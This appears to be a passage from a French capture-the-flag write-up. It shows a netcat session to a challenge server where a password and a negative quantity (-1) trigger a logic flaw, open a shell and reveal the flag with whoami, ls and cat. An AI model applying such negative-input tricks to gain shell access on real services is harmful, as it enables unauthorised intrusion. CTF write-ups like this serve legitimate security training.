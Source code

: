 ## Exploit

Testons le mot de passe :

```console
$ nc 51.20.123.75 1337
              C0d3_Ly0k0                
                                        
                  &&@&                  
                 %@&@@@                 
                 /@%%@(                 
                 /@  @(                 
              *&@@@@@@@@%,              
          @@&             .@@&          
       &@,       ./../.       %@/       
     /@,    .@@*        *@@     #@.     
    %@    ,@/              (@    .@,    
   ,@    /@     *@@&&@@      @,   (@    
   .*   %@#    #@(@@@@.@     %@@   /    
    (@&  ,@@    .@&#@@*@@     @@,  @@.   
     @@    @&                &@   .@&    
      @#    *@%            %@.    @@     
      /%@. .   *@@@&..&@@@,   . #@*/     
         /@@                 ,@@.        
            .@@@@*.&&&#.(@@@@            
           ,@ *   @@@@@%   ( @           
          .@ @.    &  %    (# @          
         .@.@,    .@  @.    ##/@         
        .@.@,      @  @      %@#@        
       ,*@,       @  @       %@&        
                  @%@@                  
                  @%@@                  
                  ,%&,                  
######@@@@@@@ X.A.N.A is watching you @@@~####']-[}
XANA Management Console 
> s
Sending mobs...
How much mobs: 

> 

-1
Total army strength : -1000 
Reconfiguring mob army...
 Done ! Attack launched !
J3r3m1e_1ns1d3R
whoami
ctf
ls
chall
flag.txt
cat flag.txt
STHACK{X@n4_PwN3d_F0r3v3r} 
```
